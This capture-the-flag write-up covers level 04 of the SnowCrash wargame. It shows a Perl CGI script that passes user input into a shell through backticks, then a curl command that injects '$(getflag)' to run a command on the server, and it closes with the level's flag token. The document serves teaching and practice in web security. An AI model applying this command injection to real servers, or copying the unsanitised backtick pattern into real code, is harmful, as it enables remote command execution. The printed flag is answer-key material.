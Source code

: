 # Level 04

`ls` -> we find a level04.pl (perl script)

Here's the content:

``` perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

## Exploit

It seems we can send curl requests to the server and it will execute the `x` subroutine as this:

`curl -s -X POST -d 'x="salut mec comment ça va"' localhost:4747`

It will shoot us with;

```bash
level04@SnowCrash:~$ curl -s -X POST -d 'x="salut mec comment ça va"' localhost:4747
salut mec comment ça va
```

So we can use echo to execute commands inside the server such as:
```bash
level04@SnowCrash:~$ curl -s -X POST -d 'x="$(getflag)"' localhost:4747
Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap
```

## Token

ne2searoevaevoem4ov4ar8ap